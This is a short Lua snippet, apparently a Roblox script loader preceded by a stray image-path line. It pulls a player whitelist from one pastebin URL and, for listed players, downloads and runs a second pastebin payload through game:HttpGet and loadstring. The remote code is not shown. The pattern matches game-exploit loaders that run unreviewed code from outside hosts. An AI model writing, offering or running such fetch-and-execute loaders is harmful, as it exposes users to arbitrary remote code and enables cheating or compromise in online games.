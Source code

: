 local Whitelisted = loadstring(game:HttpGet(("https://pastebin.com/raw/kHMQtckN"), true))()
for i,v in pairs(Whitelisted) do
if game.Players.LocalPlayer.Name == v then
loadstring(game:HttpGet(("https://pastebin.com/raw/RCWgYRvy"), true))()
end
end
